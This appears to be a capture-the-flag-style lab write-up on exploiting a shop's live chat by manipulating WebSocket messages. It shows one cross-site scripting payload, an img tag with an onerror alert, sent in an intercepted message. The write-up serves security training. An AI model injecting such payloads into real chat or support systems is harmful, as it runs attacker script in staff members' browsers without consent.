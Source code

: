 # Manipulating WebSocket messages to exploit vulnerabilities
# Objective
This online shop has a live chat feature implemented using WebSockets.

Chat messages that you submit are viewed by a support agent in real time.

To solve the lab, use a WebSocket message to trigger an `alert()` popup in the support agent's browser.


# Solution
## Analysis
On the website there is a live chat feature implemented using WebSockets.
|![](Images/image.png)|
|:--:| 
| *Chat functionality* |
|![](Images/image-3.png)|
| *Websocket view from repeater* |

## Exploitation
Payload:
```json
{"message":"<img src=0 onerror='alert()'>"}
```
|![](Images/image-1.png)|
|:--:| 
| *Successful XSS payload* |
|![](Images/image-2.png)|
| *Result - alert popup* |

In order to complete the lab payload needs to be injected into intercepted packet.
